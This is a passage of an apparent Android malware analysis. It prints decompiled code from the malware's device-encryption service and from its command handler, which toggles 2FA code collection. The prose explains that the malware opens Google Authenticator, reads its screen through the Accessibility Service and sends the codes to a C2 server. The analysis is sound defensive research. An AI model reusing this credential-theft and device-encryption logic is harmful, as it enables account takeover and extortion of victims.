 ```cs

    private final void onEncryptionStart() {
        if((Preferences.isDeviceEncrypted$default(this.preferences, null, 1, null)) && this.mode == WorkType.ENCRYPT) {
            Intrinsics.checkNotNullExpressionValue("Device already encrypted", "TDE(\"Device already encrypted\")");
            RemoteLogger.log$default(this.logger, "Device already encrypted", null, null, null, 14, null);
            this.stopForeground(true);
            this.stopSelf();
        }

        Intrinsics.checkNotNullExpressionValue("Started encryptor", "TDE(\"Started encryptor\")");
        RemoteLogger.log$default(this.logger, "Started encryptor", null, null, null, 14, null);
        Function1 function10 = (Function1)new EncryptorService.onEncryptionStart.1(this);
        this.aesEncryptor.setLog(function10);
        BuildersKt__Builders_commonKt.launch$default(CoroutineScopeKt.CoroutineScope(((CoroutineContext)Dispatchers.getIO())), null, null, ((Function2)new EncryptorService.onEncryptionStart.2(this, null)), 3, null);
    }

    @Override  // android.app.Service
    public int onStartCommand(Intent intent0, int v, int v1) {
        this.startForeground(3, ContextNotificationExtensions.INSTANCE.createManagingServiceNotification(((Context)this)));
        this.mode = intent0 == null || !intent0.getBooleanExtra("decrypt", false) ? WorkType.ENCRYPT : WorkType.DECRYPT;
        this.onEncryptionStart();
        return 1;
    }
```

The malware will receive a command related to two factor authentication `2FA` to start or stop collecting 2FA authentication codes from victim device then send 2FA message to the C2 server. The malware will run the `Google Authenticator` app and get the content of the opened interface by abusing `Accessibility Service`.

```cs 
if(Intrinsics.areEqual(s, "start2faactivator")) {
            preferences0.is2FAActivatorEnabled(boolean0);
            return;
        }

        Inject inject0 = null;
        if(Intrinsics.areEqual(s, "stop2faactivator")) {
            Log.d("2FA", String.valueOf(Preferences.is2FAActivatorEnabled$default(preferences0, null, 1, null)));
            preferences0.is2FAActivatorEnabled(Boolean.valueOf(false));
            return;
        }

        if(Intrinsics.areEqual(s, "get2fa")) {
            AppKt.log$default(this, "Request Google auth app", null, null, 6, null);
            if(!workerService1.checkScreenState(command0)) {
                return;
            }

            if(ContexStartExtensionsKt.startApp(context0, "com.google.android.apps.authenticator2")) {
                preferences0.is2FARequested(boolean0);
                return;
            }
        }
```
